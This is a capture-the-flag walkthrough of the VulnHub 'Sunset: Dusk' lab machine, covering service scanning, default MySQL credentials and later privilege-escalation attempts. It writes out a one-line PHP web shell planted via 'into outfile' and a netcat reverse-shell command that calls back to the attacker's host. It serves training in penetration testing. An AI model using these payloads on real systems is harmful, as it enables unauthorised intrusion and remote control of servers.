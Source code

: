 # Sunset: Dusk

https://www.vulnhub.com/entry/sunset-dusk,404/

## Reconnaissance

An intense nmap scan revealed:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.53.6:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 40
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Support41Auth, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, IgnoreSigpipes, Speaks41ProtocolOld, ODBCClient, FoundRows, LongColumnFlag, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: AcN=%B[&HyJDTZF2e'0[
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80 is just the default debian page again, but 8080 seems to be a php server running off /var/tmp, listing its files and running the index.php file there. Looks pretty juicy. nikto on either failed: nothing interesting on the default page, and 8080 is basically just a ftp listing.

Speaking of, ftp did not allow anonymous access. Neither did the mysql endpoint. Playing around with SMTP didn't achieve much. Ultimately a scan with legion, and a check for default credentials, revealed mysql used `root:password`. 

## MySQL to create php shell, then reverse netcat.

The following command got me in to mysql: `mysql -u root -p -h 192.168.53.6` followed by entering the password `password`.

I browsed around for a bit, but found nothing. However, given the :8080 site was a PHP cli site which helpfully listed its exact location on the page, I tried the 'into outfile' trick and it worked:

```
MariaDB [(none)]> select '<?php system($_GET["cmd"]); ?>' into outfile '/var/tmp/cmd.php';
Query OK, 1 row affected (0.001 sec)
```

Then going to the php site, sure enough cmd.php was there. Browsing to it with `192.168.53.6:8080/cmd.php?cmd=ls` ran ls successfully. Time for a reverse netcat shell!

`192.168.53.6:8080/cmd.php?cmd=nc%20192.168.53.4%204444%20-e%20/bin/bash` plus `nc -nvlp 4444` in another prompt got me a reverse nc, then `python -c "import pty;pty.spawn('/bin/bash');"` got me a nice shell.

## On machine enumeration

As `www-data`, I ran `sudo -l`:

```
Matching Defaults entries for www-data on dusk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dusk:
    (dusk) NOPASSWD: /usr/bin/ping, /usr/bin/make, /usr/bin/sl
```

`ping` and `sl` won't provide anything. `make` looked promising, but even though I can execute commands with it they don't run as dusk, just me as www-data.

## Server resetting (a dead end)

However, given this server has smtp, I browsed to /var/spool/mail and found three files, for dusk, root and www-data. I copied this into /var/tmp so I could read it better, and it contains many messages that are identical (except for time):

```
From www-data@dusk.dusk  Sat Nov 30 17:50:02 2019
Return-Path: <www-data@dusk.dusk>
X-Original-To: www-data
Delivered-To: www-data@dusk.dusk
Received: by dusk.dusk (Postfix, from userid 33)
	id 17C671824; Sat, 30 Nov 2019 17:50:01 -0500 (EST)
From: root@dusk.dusk (Cron Daemon)
To: www-data@dusk.dusk
Subject: Cron <www-data@dusk> /usr/bin/php -S 192.168.1.167:8080 -t /tmp
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/var/www>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=www-data>
Message-Id: <20191130225002.17C671824@dusk.dusk>
Date: Sat, 30 Nov 2019 17:50:01 -0500 (EST)

[Sat Nov 30 17:50:01 2019] Failed to listen on 192.168.1.167:8080 (reason: Address already in use)
```

Later it switches the dir from /tmp/ to /var/tmp. There was an email every minute. 

To me, this looked like dusk is trying to start a php webserver, but can't because www-data already has.

I ran `ps -U www-data -o "%P %c %a"` to see the running commands www-data has done:

```
PPID COMMAND         COMMAND
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
 1141 sh              /bin/sh -c /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
 1143 php             /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
  651 apache2         /usr/sbin/apache2 -k start
 1146 sh              sh -c nc 192.168.1.3 4444 -e /bin/bash
 1517 bash            bash
 1518 python          python -c import pty;pty.spawn('/bin/bash');
 1528 bash            /bin/bash
 1529 ps              ps -U www-data -o %P %c %a
```

In theory, if I killed `1141` or `1143`, above, then the cron job should start a new server as dusk, right?

Before trying, I ran `/usr/bin/php -S 0.0.0.0:8081 -t /var/tmp` to start a secondary server as www-data.

When I killed the server, it came back shortly. Doing a whoami, however, revealed it was still www-data. Relooking at the mail message, and examining the new logs, I saw it was actually restarting the server for www-data, not dusk /facepalm
